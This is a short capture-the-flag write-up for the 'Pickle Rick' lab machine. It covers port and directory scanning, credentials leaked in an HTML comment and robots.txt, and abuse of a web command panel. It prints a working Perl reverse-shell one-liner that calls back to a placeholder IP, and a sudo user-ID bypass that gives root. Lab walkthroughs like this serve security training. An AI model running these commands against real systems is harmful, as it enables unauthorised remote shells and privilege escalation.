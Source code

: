 THE MACHINE IS PICKLE RICK 

For firts thing we run the tool name Nmap: 

	nmap -p- IPMACHINE

we foud two ports open wich there are:

	ssh 22
	http 80

we enter on the website and run the gobaster:

	gobuster dir -u 10.10.196.51 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,js,txt,pdf,doc,bak

there are two important page

	/robots.txt
	/login.php 

in the source code on the homepage are found an username: 

	 <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

in the file robots.txt there is the password
sing in on the page login.php
we are into 

We are redirected to /portal.php in which we are given a command panel.

use less for open file Sup3rS3cretPickl3Ingred.txt

	less Sup3rS3cretPickl3Ingred.txt

it's the first flag 
now it's time to do a reverse shell 

	perl -e 'use Socket;$i="IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'


it worked
go around on the file system 
in the directory rick we found the second flag


Now the need  do escalate our privilage.For do that , we use another tool called linepas.
run this on the machine for extract the information for possible privialge escalation. 


one vuln is on the sudo version 1.8.16

	sudo -u#-1 /bin/bash

WE ARE ROOT , STEAL THE LAST FLAG NOW 